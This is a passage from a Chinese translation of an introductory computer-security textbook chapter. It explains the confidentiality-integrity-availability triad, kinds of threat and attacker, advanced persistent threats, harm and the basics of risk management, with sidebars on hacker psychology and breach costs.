*   未授权人员得知某数据项的存在（例如，知道某公司正在开发特定新产品，或知道两家公司正在进行合并谈判）。

请注意这些陈述的一般模式：人员、进程或程序被（或未被）授权以特定方式访问数据项。我们称人员、进程或程序为**主体**，数据项为**客体**，访问类型（如读、写或执行）为**访问模式**，授权为**策略**，如图 1-6 所示。这四个术语将在本书中反复出现，因为它们是计算机安全的基本方面。



**图 1-6** 访问控制

一个能涵盖机密性大多数方面的词是*view*（查看），尽管你不应从字面上理解该术语。机密性失效并不一定意味着有人看到了一个对象，事实上，以任何有意义的方式查看比特几乎是不可能的（尽管你可以查看它们作为字符或图片的表示形式）。View 一词确实暗示了计算机安全中机密性的另一个方面，通过与在博物馆观看电影或绘画的联系：可看不可碰。在计算机安全中，机密性通常意味着获取但不修改。修改是完整性的主题，我们将在下一节中讨论。

#### 完整性

完整性失效的例子不胜枚举。多年前，Word 文档中的一个恶意宏在“is”一词的随机实例后插入了“not”一词；由此引发的混乱可想而知。由于文档在语法上通常是正确的，人们并没有立即察觉到这一变化。在另一个案例中，奔腾计算机芯片的一个型号在特定的浮点运算情况下产生了错误结果。尽管故障情况罕见，英特尔还是决定制造并替换这些芯片。我们中许多人收到过地址错误的邮件，因为有人在从手写列表抄写时输错了东西。更糟糕的情况是，当这种不准确性传播到其他邮件列表时，我们似乎永远无法纠正问题的根源。有时我们发现电子表格似乎不对劲，结果发现有人在单元格中输入了“space 123”，将其从数值改为了文本，导致电子表格程序在计算中错误地使用了该单元格。假设有人将数字数据转换为罗马数字：有人可能会争辩 IV 等同于 4，但在大多数应用中 IV 并无用处，对于期望得到答案 4 的人来说，它也不会显而易见地有意义。这些案例展示了完整性失效示例的广泛性。

完整性比机密性更难捉摸。正如 Stephen Welke 和 Terry Mayfield [WEL90, MAY91, NCS91a] 所指出的，完整性在不同语境下意味着不同的事物。当我们考察某些人使用该术语的方式时，会发现有几种不同的含义。例如，如果我们说保留了某项的完整性，可能意味着该项是

- 精确的
- 准确的
- 未修改的
- 仅以可接受的方式修改
- 仅由授权人员修改
- 仅由授权进程修改
- 一致的
- 内部一致的
- 有意义且可用的

完整性也可以指其中两种或更多属性。Welke 和 Mayfield 识别出完整性的三个特定方面——授权操作、资源的分离与保护、错误检测与纠正。完整性的实施方式与机密性大致相同：通过严格控制谁或什么可以以何种方式访问哪些资源。

##### 可用性

计算机用户最可怕的噩梦：你打开开关，计算机毫无反应。你的数据和程序推测仍在那里，但你无法访问它们。幸运的是，极少有人经历这种故障。然而，我们中许多人确实经历过过载：访问变得越来越慢；计算机有响应，但不是我们认为正常或可接受的方式。

可用性同时适用于数据和服务（即信息和信息处理），且同样复杂。与机密性的概念一样，不同的人期望可用性意味着不同的事物。例如，如果满足以下条件，则认为对象或服务是可用的：

- 它以可用的形式存在。
- 它有足够的容量来满足服务需求。
- 它正在取得明确进展，且如果处于等待模式，则有有限的等待时间。
- 服务在可接受的时间内完成。

我们可以通过结合这些目标来构建可用性的整体描述。以下是定义可用性的一些标准。

- 对我们的请求有及时响应。
- 资源分配公平，不会偏袒某些请求者。
- 并发受到控制；即按需支持同时访问、死锁管理和独占访问。
- 相关服务或系统遵循容错理念，即硬件或软件故障导致服务优雅终止或采用变通方法，而不是崩溃和突然的信息丢失。（终止确实意味着结束；无论是否优雅，最终系统都是不可用的。然而，通过系统停止的公平预警，用户可能能够转移到另一个系统并继续工作。）
- 服务或系统易于使用，且按预期方式使用。（这是可用性的一个特征，但不可用的系统也可能导致可用性故障。）

正如你所见，对可用性的期望影响深远。在图 1-7 中，我们描绘了与可用性重叠的一些属性。确实，安全社区才刚刚开始理解可用性的含义以及如何确保它。



**图 1-7** 可用性及相关方面

一个人或系统可以对数据项做三件基本的事：查看它、修改它或使用它。因此，查看（机密性）、修改（完整性）和使用（可用性）是计算机安全旨在保护的三种基本访问模式。

***

**计算机安全旨在防止未经授权的查看（机密性）或修改（完整性）数据，同时保持访问（可用性）。**

***

计算机安全的一个范式是**访问控制**：为实施策略，计算机安全控制所有主体以所有访问模式对所有受保护对象的所有访问。一个小型的、集中的访问控制是保护机密性和完整性的基础，但单一访问控制点能否强制执行可用性尚不清楚。事实上，可靠性专家会指出，单一控制点可能成为单点故障，使攻击者能够通过禁用单一控制点轻松破坏可用性。计算机安全过去的大部分成功都集中在机密性和完整性上；例如，存在机密性和完整性模型，参见 David Bell 和 Leonard La Padula [BEL73, BEL76] 以及 Kenneth Biba [BIB77]。可用性是安全领域面临的下一个重大挑战。

我们刚刚描述了 CIA 三要素及其代表的三个基本安全属性。我们对这些属性的描述是在需要保护的事物背景下进行的。为了激发你的理解，我们给出了一些危害和造成危害的威胁示例。我们的下一步是思考威胁本身的性质。

##### 威胁类型

关于危害的一些想法，请看图 1-8，摘自 Willis Ware 的报告 [WAR70]。尽管该报告写于计算机体积庞大、昂贵且难以操作、只有大学、大型企业或政府部门等大型组织才拥有的时代，但 Ware 的讨论至今仍具指导意义。Ware 主要关注机密数据的保护，即维护机密性。在图中，他描绘了程序员和维护人员等人员获取数据的情况，以及数据以信号形式逸出的辐射情况。从图中可以看到对计算机系统的多种威胁。



**图 1-8** 计算机[网络]漏洞（源自 [WAR70]）

分析危害的一种方法是考虑其原因或来源。我们将危害的潜在原因称为**威胁**。危害可能由非人为事件或人为因素引起。**非人为威胁**的例子包括火灾或洪水等自然灾害；电力中断；通信电缆、处理器芯片或磁盘驱动器等组件故障；或野猪攻击。

***

**威胁既由人为也由其他来源引起。**

***

### 人为威胁

**人为威胁**可以是良性的（非恶意的），也可以是恶意的。**非恶意**伤害包括某人不小心将软饮料洒在笔记本电脑上、无意中删除文本、无心将电子邮件发送给错误的人、在输入电话号码时粗心地键入“12”而不是“21”，或在覆盖文件时点击“是”而不是“否”。这些无意的人为错误大多数人都会犯；我们只希望危害的严重程度不要太大，或者如果确实严重，希望我们不再重蹈覆辙。

---

#### 威胁可以是恶意的，也可以是非恶意的

大多数计算机安全活动都与**恶意**、**人为造成的伤害**有关：恶意的人实际上想要造成伤害，因此我们经常用*攻击*一词来指代恶意的计算机安全事件。恶意攻击可以是随机的，也可以是定向的。在**随机攻击**中，攻击者想要危害任意计算机或用户；这种攻击类似于拦截下一个走在街上的行人。随机攻击的一个例子是发布在网站上的恶意代码，任何人都可能访问该网站。

在**定向攻击**中，攻击者意图危害特定的计算机，可能是某个组织的计算机（想想针对政治组织的攻击），或属于特定个人的计算机（例如，想想通过冒充身份试图掏空特定个人的银行账户）。另一类定向攻击针对特定产品，例如运行特定浏览器的任何计算机。（我们不想在语义上吹毛求疵，纠结这种攻击是定向的——针对那一个软件产品——还是随机的——针对该产品的任意用户；关键不在于语义的完美，而在于防范这些攻击。）可能的定向攻击范围实际上是无限的。不同种类的威胁如图 1-9 所示。



**图 1-9** 威胁种类

---

#### 威胁可以是定向的，也可以是随机的

尽管图 1-9 中所示的区别看起来很明确，但有时攻击的性质在攻击已深入进行，甚至可能已经结束之前并不明显。正常的硬件故障看起来可能像是一场旨在拒绝访问的定向恶意攻击，而黑客通常会试图隐藏其活动，使其看起来像普通的授权用户。作为计算机安全专家，我们需要预判可能发生的坏事，而不是等待攻击发生，或争论攻击是故意的还是意外的。

无论是本书、任何清单还是任何方法，都无法向你展示计算机资产可能遭受的*所有*伤害种类。干扰你使用这些资产的方式多得数不胜数。不过，有两份已知漏洞的回顾性列表值得关注。通用漏洞披露（CVE）列表（参见[`cve.mitre.org/`](http://cve.mitre.org/)）是一个公开已知安全漏洞和弱点的字典。CVE 的通用标识符支持安全产品之间的数据交换，并为评估安全工具和服务的覆盖范围提供了一个基准索引点。为了衡量危害程度，通用漏洞评分系统（CVSS）（参见[`nvd.nist.gov/cvss.cfm`](http://nvd.nist.gov/cvss.cfm)）提供了一个标准度量系统，允许对漏洞影响进行准确且一致的评分。

### 高级持续性威胁

安全专家越来越关注一种称为**高级持续性威胁**的威胁类型。单个攻击者可能会制造随机攻击，诱捕几个或几百万个体，但由此产生的影响仅限于该单个攻击者所能组织和管理的范围。一群攻击者——可以想象为网络世界中的街头帮派或有组织犯罪团伙——可能会合作窃取信用卡号码或类似的金融资产，以资助其他非法活动。此类攻击者往往是机会主义者，窃取倒霉受害者的财物后便转移到其他活动。

高级持续性威胁攻击来自有组织、资金充足、耐心十足的攻击者。他们通常与政府或准政府组织有关联，从事长期战役。他们精心挑选目标，制作专门针对这些目标的攻击；称为鱼叉式网络钓鱼的电子邮件（见第 4 章所述）旨在诱骗收件人。通常这些攻击是隐蔽的，避免任何会引起受害者警觉的明显影响，从而允许攻击者长期利用受害者的访问权限。

此类攻击的动机有时不清楚。一个普遍的目标是经济间谍活动。一系列显然由中国政府组织和支持的攻击，曾在 2012 年和 2013 年用于从美国航空航天公司获取产品设计。有证据表明，攻击代码的存根早在攻击前很久就已被加载到受害者机器中；随后，攻击者安装了更复杂的代码并提取了所需数据。2014 年 5 月，司法部缺席起诉了五名中国黑客，罪名即为这些攻击。

2014 年夏天，针对摩根大通银行及多达十几家类似金融机构的一系列攻击，使攻击者获取了 7600 万条姓名、电话号码和电子邮件地址。攻击者及其原籍国仍然未知，动机也是未知的。也许攻击者想要更敏感的金融数据，如账号或密码，但只能获得价值较低的联系信息。也不知道这次攻击是否与一年前那场扰乱该银行及其他几家银行服务的攻击有关。

为了构想可能攻击的全貌，你可能会发现考虑攻击计算机系统的人员类型很有用。虽然任何人都可能是攻击者，但由于其背景或目的，某些人群格外突出。因此，在以下章节中，我们将探讨几类攻击者的画像。

#### 攻击者类型

攻击者是谁？正如我们所见，他们的动机范围从偶然到特定目标不等。撇开自然和良性原因造成的攻击，我们可以探讨攻击者是谁以及是什么驱使他们。

大多数关于攻击者的研究实际上分析的是计算机罪犯，即已被定罪的人，主要是因为这群体易于识别和研究。那些逃脱了或实施攻击未被发现的人，其特征可能与已被抓获的罪犯不同。更糟的是，仅研究已被抓获的罪犯，我们可能无法学会如何捕捉那些懂得在不被逮捕的情况下滥用系统的攻击者。

网络罪犯长什么样？在电视和电影中，反派穿着破旧的衣服，看起来凶恶阴险，住在城外的帮派里。相比之下，警长衣着得体，挺拔自信，镇上人人认识并尊敬他，令大多数罪犯闻风丧胆。

确实，有些计算机罪犯是卑鄙阴险之徒。但更多的人身穿西装、拥有大学学位，且看起来是社区的栋梁之材。有些是高中生或大学生。另一些则是中年企业高管。有些人精神错乱、公开敌对或对某项事业极度投入，他们将计算机作为攻击的象征。另一些则是被个人利益、复仇、挑战、晋升或工作保障所诱惑的普通人——就像任何犯罪的实施者一样，无论是否使用计算机。研究人员试图寻找区分攻击者的心理特征，如侧边栏 1-1 所述。然而，这些研究远未得出定论，它们确定的特征可能显示相关性，但不一定意味着因果关系。为了理解这一点，假设一项研究发现，被定罪的计算机罪犯中左撇子占不成比例的高数量。这是否意味着所有左撇子都是计算机罪犯，或者只有左撇子才是？当然不是。没有单一的画像能捕捉到“典型”计算机攻击者的特征，而且一些臭名昭著的攻击者的特征也与许多非攻击者相符。正如图 1-10 所示，攻击者看起来就像人群中的任何一个人。



**图 1-10 攻击者**

***

**没有单一模式能匹配所有攻击者。**

***

***

### 侧边栏 1-1 攻击者的心理画像？

科罗拉多州立大学动物科学教授、阿斯伯格综合征（AS）患者坦普尔·格兰丁认为，凯文·米特尼克和其他几位被广泛报道的黑客表现出阿斯伯格综合征的典型症状。尽管她迅速指出尚无研究确立 AS 与黑客行为之间的联系，但格兰丁注意到米特尼克、她自己及其他 AS 患者之间存在相似的行为特征。《今日美国》（2001 年 3 月 29 日）的一篇文章列出了以下 AS 特征：

*   社交技能差，通常表现为童年时期孤僻；典型的“电脑书呆子”
*   小动作不断、坐立不安、无法进行眼神交流、对社交互动中的线索（如面部表情或肢体语言）缺乏反应
*   能够记住长串数字的非凡能力
*   能长时间高度专注于技术问题，尽管在其他问题上容易分心，且无法同时处理多项任务
*   深度的诚实和对法律的尊重

唐·帕克[PAR98]研究黑客攻击和计算机犯罪多年。他指出：“黑客的特点是态度幼稚、过度理想化……他们乐于在媒体面前将自己包装成理想主义的行善者、弱者的捍卫者。”

请看以下对“Mixter”的采访摘录[SHA00]，这位德国程序员承认他是广泛传播的攻击软件“部落洪水网络”（TFN）及其续作 TFN2K 的作者：

*   **问：** 你为什么编写该软件？
*   **答：** 我于 1999 年 7 月首次听说 Trin00 \[另一种攻击软件\]，从技术角度来看我觉得它很有趣，但也潜在地具有负面威力。我了解 Trin00 运作的一些事实，既然当时我没能弄到 Trin00 的源代码或二进制文件，我就编写了我自己的服务器-客户端网络，能够实施拒绝服务攻击。
*   **问：** 你是否参与了……近期任何高调的攻击？
*   **答：** 没有。我编写这些工具的事实绝不意味着我赞同其被主动使用。我必须承认，听到最近的攻击事件我相当震惊。看来攻击者是相当无知的人，他们滥用强大的资源和工具从事普遍有害且毫无意义的活动，仅仅是“因为他们能这么做”。

请注意，基于一些关于拒绝服务攻击的信息，他编写了自己的服务器-客户端网络，然后是一个复杂的攻击工具。但听到它们被用于危害时，他却“相当震惊”。

在我们能够定义黑客画像之前，还需要更多研究。而要将该画像扩展为（恶意）攻击者的画像，将需要更多工作。并非所有黑客都会成为攻击者；一些黑客成为极其敬业和尽职的系统管理员、开发人员或安全专家。但一些心理学家在 AS 中看到了黑客画像的雏形。

***

#### 个人

最初，计算机攻击者是个人，出于娱乐、挑战或复仇的动机行事。早期的攻击者单独行动。其中最著名的两位是小罗伯特·莫里斯，这位康奈尔大学研究生于 1988 年瘫痪了互联网[SPA89]，以及凯文·米特尼克，此人闯入并窃取了数十台计算机的数据，包括圣地亚哥超级计算机中心[MAR95]。

#### 有组织的全球性团体

近期的攻击涉及人员团伙。针对爱沙尼亚政府的攻击（详见第 13 章）被认为是来自世界各地松散联邦的攻击者的非协调爆发。凯文·波尔森[POU05]引用乔治·华盛顿大学研究教授蒂姆·罗森伯格的警告，提到“由有组织犯罪支持的跨国黑客团体”，并展示了禁酒令时期黑帮分子的老练手段。他还报道称，美国司法部计算机犯罪科副主任克里斯托弗·佩因特认为，网络罪犯和严重欺诈艺术家正日益合谋作案，甚至二者合二为一。据佩因特称，世界各地松散联系的犯罪团伙合作侵入系统，窃取并贩卖信用卡号等信息。例如，2004 年 10 月，美国和加拿大当局逮捕了来自 6 个国家的 28 名涉及国际有组织网络犯罪集团的人员，他们买卖信用卡信息和身份证件。

早期像莫里斯和米特尼克这样的计算机攻击者的动机是个人的，如声望或成就感，而近期的攻击深受经济利益驱动。安全公司 McAfee 报告称：“罪犯们已意识到从互联网获取巨额经济利益风险极低。他们带来了大规模、高价值犯罪企业所需的技能、知识和人脉，这些与计算机技能结合后，扩大了网络犯罪的范围和风险。”[MCA05]

#### 有组织犯罪

攻击者的目标包括欺诈、勒索、洗钱和贩毒，这些都是有组织犯罪早已建立稳固地位的领域。有组织犯罪集团参与计算机犯罪的证据日益增加。事实上，传统罪犯正在招募黑客加入利润丰厚的网络犯罪世界。例如，阿尔伯特·冈萨雷斯于 2010 年 3 月因与犯罪团伙合作从零售商 TJMaxx 等处窃取 4000 万个信用卡号，造成超过 2 亿美元损失，被判处 20 年监禁（《路透社》，2010 年 3 月 26 日）。

### 有组织犯罪与计算机犯罪


# 有组织犯罪与计算机安全威胁

有组织犯罪可能利用计算机犯罪（如窃取信用卡号码或银行账户详细信息）为犯罪的其他方面提供资金。近期的攻击表明，职业罪犯已经发现计算机犯罪可以有多么暴利。微软安全项目经理 Mike Danseglio 表示：“在 2006 年，攻击者想要付房租。他们不想编写破坏你硬件的蠕虫。他们想要同化你的计算机并利用它们赚钱。” [NAR06a] 芬兰安全公司 F-Secure 首席研究官 Mikko Hyppönen 同意这一观点，即现在的攻击通常来自俄罗斯、亚洲和巴西；动机现在是利润，而非名声 [BRA06]。VeriSign 快速响应团队总监 Ken Dunham 表示，他“确信由熟练黑客驱动的、组织良好的暴徒团伙已经控制了一个全球性的十亿美元犯罪网络。” [NAR06b]

---

**有组织犯罪集团正在发现计算机犯罪可以带来暴利。**

---

McAfee 还描述了一起雇佣黑客的案例：一位商人雇佣了一名 16 岁的新泽西黑客攻击其竞争对手的网站。该黑客对该网站进行了长达五个月的狂轰滥炸，不仅损害了目标公司，还损害了他们的互联网服务提供商（ISP）以及使用相同 ISP 的其他无关公司。据 FBI 估计，这些攻击给所有公司造成了超过 200 万美元的损失；FBI 于 2005 年 3 月逮捕了该黑客和商人 [MCA05]。

Brian Snow [SNO05] 观察到，黑客想要的是分数或某种证据，以便给他们吹嘘的资本。有组织犯罪想要的是资源；此类罪犯想要隐藏在雷达之下，以便能够长期从系统中榨取利润。这些不同的目标导致了不同的计算机犯罪手段：新手黑客可以使用粗糙的攻击，而专业攻击者想要一种整洁、稳健且难以检测的方法，能够长期带来回报。

## 恐怖分子

计算机安全与恐怖主义之间的联系显而易见。我们看到恐怖分子以四种方式使用计算机：

* **计算机作为攻击目标**：拒绝服务攻击和网站篡改是任何政治组织的热门活动，因为它们能吸引人们对其事业的关注，并给攻击对象带来不必要的负面关注。一个例子是针对爱沙尼亚发动的大规模拒绝服务攻击，详见第 13 章。

* **计算机作为攻击手段**：发动进攻性攻击需要使用计算机。`Stuxnet` 是一种被称为蠕虫的恶意计算机代码，已知会攻击自动化控制系统，特别是西门子制造的一种控制系统型号。专家称，该代码旨在瘫痪用于控制伊朗核反应堆的机械 [MAR10]。攻击背后的人员身份不明，但据信感染是通过维护计算机控制器的工程师携带的 USB 闪存驱动器传播的。（我们将在第 6 章 和 第 13 章 中更详细地研究 `Stuxnet` 蠕虫。）

* **计算机作为攻击的推动者**：网站、网络日志和电子邮件列表是让许多人进行协调的有效、快速且廉价的方式。根据外交关系委员会的说法，对 2008 年 11 月孟买袭击事件负责的恐怖分子（该事件造成 200 多人死亡）使用 GPS 系统引导他们的船只，使用 Blackberry 进行通信，并使用 Google Earth 规划路线。

* **计算机作为攻击的增强者**：互联网已被证明是恐怖分子传播宣传和招募特工的宝贵手段。2009 年 10 月，FBI 逮捕了 Colleen LaRose（也称为 JihadJane），据联邦起诉书称，她在被捕前几个月一直使用电子邮件、YouTube、MySpace 和电子留言板在欧洲和南亚招募激进分子“发动暴力圣战”。

我们无法准确衡量恐怖分子使用计算机的程度，因为恐怖分子对其活动的性质保密，而且我们的定义和测量工具相当薄弱。尽管如此，Sidebar 1-2 中描述的事件等事件提供了证据，表明这四种活动都在增加。

---

### Sidebar 1-2 恐怖分子公司的 IT 部门

2001 年，《华尔街日报》的一名记者在阿富汗买了一台二手电脑。令他惊讶的是，他发现硬盘里包含了似乎来自一名基地组织高级成员的文件。记者 Alan Cullison [CUL04] 报道称，他将电脑移交给了 FBI。在 2004 年发表于《大西洋月刊》的报道中，他小心翼翼地避免透露任何他认为可能敏感的信息。

磁盘包含 1000 多份文件，其中许多使用相对较弱的加密进行了加密。Cullison 发现了起草的任务计划和白皮书，阐述了 2001 年 9 月 11 日袭击事件的意识形态和哲学论据。还发现了关于恐怖活动的新闻报道副本。一些发现的文件表明，基地组织最初对化学、生物或核武器不感兴趣，但在阅读了指责基地组织拥有这些能力的公开新闻文章后产生了兴趣。

也许最出人意料的是，发现了那种在典型办公室中常见的电子邮件：晋升推荐、小额现金支出理由以及关于预算的争论。

这台计算机似乎在 1999 年至 2001 年间被基地组织使用。Cullison 指出，2001 年底的阿富汗一片混乱，笔记本电脑的主人很可能匆忙逃离，留下了电脑，随后落入了一名不知情的二手商贩手中。

但这台计算机的内容说明了计算机安全和保密性的一个重要方面：我们永远无法预测安全灾难何时会发生，因此我们必须时刻准备好在灾难突然发生时立即采取行动。

---

如果电视上有人打喷嚏，你不会担心感冒传染给你。但如果站在你旁边的人打喷嚏，你可能会担心。在下一节中，我们将探讨你自己的计算机系统上存在计算机安全威胁可能造成的危害。

## 1.3 危害

威胁成真带来的负面后果是**危害**；我们保护自己免受威胁，是为了减少或消除危害。我们已经描述了许多计算机危害的例子：被盗的计算机、被修改或丢失的文件、泄露的私人信件、或被拒绝访问数据。这些事件造成了我们想要避免的危害。

在我们之前关于资产的讨论中，我们指出价值取决于所有者或外部人的感知和需求。价值的某些方面是不可衡量的，例如你明天需要提交给教授的论文的价值；如果你丢失了论文（即其可用性丢失），任何数量的金钱都无法弥补。你几乎不重视或完全不重视的物品，对别人可能更有价值；例如，昨晚派对上拍的集体照可能会暴露你的朋友不在他告诉妻子的地方。即使很难为资产分配一个具体的数值，你通常可以根据损失或损坏该对象会造成的危害程度，在一个通用的等级上分配一个价值，如中等、微不足道或极高。或者你可以根据可比较的损失，分配一个相对于其他资产的价值：这个版本的文件对你来说比那个版本更有价值。

### 风险管理与资产估值

#### 地下市场中的资产估值

在 2010 年全球互联网威胁报告中，安全公司赛门铁克调查了地下网页上出售的商品和服务种类。2009 年和 2008 年最常出售的物品均为信用卡号，价格从每张 0.85 美元到 30.00 美元不等。（将这些价格与个人应对信用卡被盗影响所付出的努力，或发卡银行可能遭受的损失金额进行对比。）第二常见的是银行账户凭证，价格为 15 美元至 850 美元；这两年中均有 19% 的网站提供此类商品。排名第三的是电子邮件账户，价格为 1 美元至 20 美元，电子邮件地址列表的价格为每千条 1.70 美元至 15.00 美元。2009 年排名第 10 位的是网站管理员凭证，仅售 2 美元至 30 美元。这些黑市网站表明，计算机资产的市场价格可能与其对合法所有者的价值截然不同。

#### 风险管理基础

许多资产的价值会随时间变化，因此危害程度（进而威胁的严重性）也会随之改变。如果拥有无限的时间、金钱和能力，我们或许会试图防范所有类型的危害。但由于资源有限，我们必须确定保护的优先级，仅针对严重威胁和我们能够控制的威胁进行防护。选择我们要缓解的威胁涉及一个称为**风险管理**的过程，它包括权衡威胁的严重性与我们的防护能力。

***

**风险管理涉及选择控制哪些威胁以及投入什么资源用于防护。**

***

##### 风险与常识

威胁的数量和种类实际上是无限的，因为设计攻击需要活跃的想象力、决心、坚持和时间（以及访问权限和资源）。计算机世界中威胁的性质和数量反映了现实生活：危害的成因是无限的，且很大程度上不可预测。火山爆发和地震等自然灾害几乎没有预警就会发生，车祸、心脏病发作、流感和随机暴力行为也是如此。为了防范意外或流感，你可能决定足不出户。但这样做是用一组风险换取另一组风险；待在室内时，你面临建筑物倒塌的风险。可能导致危害的原因太多，我们无法完全保护自己——或我们的计算机——免受所有危害。

在现实生活中，我们每天都在做决定，以求得最佳的安全防护方式。例如，虽然我们可能选择居住在不易发生地震的地区，但无法完全消除地震风险。有些选择是有意识的，比如决定不在不安全社区的黑暗小巷行走；其他时候，我们的潜意识基于经验或专业知识指导我们采取预防措施。我们评估危害发生的可能性和严重性，然后考虑应对威胁的方法（称为对策或控制措施），并确定这些控制措施的有效性。

计算机安全也是类似的。因为我们无法防范一切，所以必须确定优先级：可用于防护的时间、精力或金钱有限，因此我们应对某些风险，而让其他风险自行发展。或者我们考虑替代行动方案，例如通过购买保险转移风险，甚至什么都不做——如果对策的副作用可能比潜在危害更严重。未被控制措施覆盖的风险称为**剩余风险**。

风险管理的基本模型包括用户计算所有资产的价值，确定所有可能威胁造成的危害程度，计算防护成本，基于风险程度和有限资源选择防护措施（即控制措施或对策），并应用这些防护措施以最大化避免的危害。这种风险管理方法是一种合乎逻辑且明智的防护途径，但存在显著缺陷。现实中，很难评估每项资产的价值；正如我们所见，价值会因上下文、时机及许多其他特征而变化。更难的是确定所有可能威胁的影响。可能的威胁范围实际上是无限的，并且很难（在某些情况下甚至不可能）知晓某一行动的短期和长期影响。例如，侧边栏 1-3 描述了一项关于安全漏洞随时间推移对企业财务影响的研究，表明必须随时间评估威胁，而不仅仅在单一时刻评估。

***

##### 侧边栏 1-3：安全漏洞的短期与长期风险

长期以来，人们假设安全漏洞会对业务不利：客户担心数据丢失，会避开不安全的企业，转向更安全的企业。但实证研究表明情况更为复杂。早期关于安全漏洞影响的研究，如 Campbell [CAM03] 的研究，考察了漏洞对股价的影响。他们发现，漏洞的影响可能取决于漏洞本身的性质；当漏洞涉及未经授权访问机密数据时，影响更大。Cavusoglu 等人 [CAV04] 发现，漏洞不仅影响遭受漏洞公司的价值，也影响安全企业的价值：平均而言，遭受漏洞的公司在漏洞披露后两天内市场价值损失了 2.1%，但安全开发商的*市场*价值实际上*增加*了 1.36%。

Myung Ko 和 Carlos Dorantes [KO06] 研究了公开披露漏洞的长期财务影响。基于 Campbell 等人的研究，他们考察了宣布未经授权访问机密数据后四个季度的数据。Ko 和 Dorantes 指出了许多可能的漏洞相关成本类型：

> “短期成本的例子包括维修成本、系统更换成本、因业务中断导致的业务损失以及员工生产力损失。这些也被视为有形成本。另一方面，长期成本包括因失去信任而流失的现有客户、因漏洞导致负面声誉而无法吸引潜在未来客户、因失去信任而流失的业务合作伙伴，以及漏洞带来的潜在法律责任。这些成本大多是难以计算但对评估组织整体安全漏洞成本至关重要的无形成本。”

